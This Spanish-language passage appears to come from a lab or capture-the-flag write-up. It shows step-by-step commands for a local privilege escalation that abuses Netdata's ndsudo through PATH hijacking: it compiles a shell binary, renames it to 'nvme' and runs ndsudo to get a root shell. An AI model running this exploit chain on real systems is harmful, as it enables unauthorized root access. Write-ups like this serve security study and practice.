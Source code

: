 compilamos el binario

```bash
gcc shell.c -o shell
```

>>> una vez compilado lo pasamos a la maquina remota

Ahora Cambiamos el PATH en la maquina remota

```bash
export PATH=/home/oliver:$PATH
```

ahora vamos a ver que nombre tienen los binarios que ejecuta `ndsudo`

```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo --help
```

<img width="1920" height="862" alt="image" src="https://github.com/user-attachments/assets/6a505c4f-e21c-4235-9952-6db49bacde54" />

>>> en este caso use el nombre del binario nvme

Ahora cambiamos el nombre del binario malicioso por el nombre del binario que buscara `ndsudo` y le damos permisos de ejecucion

```sudo
mv shell nvme && chmod +x nvme
```

Por ultimo ejecutamos el binario `ndsudo` y escalamos a `root`

```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

<img width="1920" height="361" alt="image" src="https://github.com/user-attachments/assets/c5238886-baa3-4473-baa7-5d2ac740c17e" />

# Obtuvimos control como ROOT!!!!





